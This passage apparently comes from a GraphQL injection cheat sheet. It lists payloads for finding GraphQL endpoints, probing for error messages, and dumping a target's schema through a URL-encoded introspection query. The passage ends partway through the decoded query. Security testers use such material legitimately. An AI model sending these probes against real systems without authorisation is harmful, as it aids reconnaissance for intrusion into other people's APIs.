 ### Identify an injection point

Most of the time the graphql is located on the `/graphql` or `/graphiql` endpoint.

```js
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

Check if errors are visible.

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```


### Enumerate Database Schema via Introspection

URL encoded query to dump the database schema.

```js
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

URL decoded query to dump the database schema.

```javascript
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
```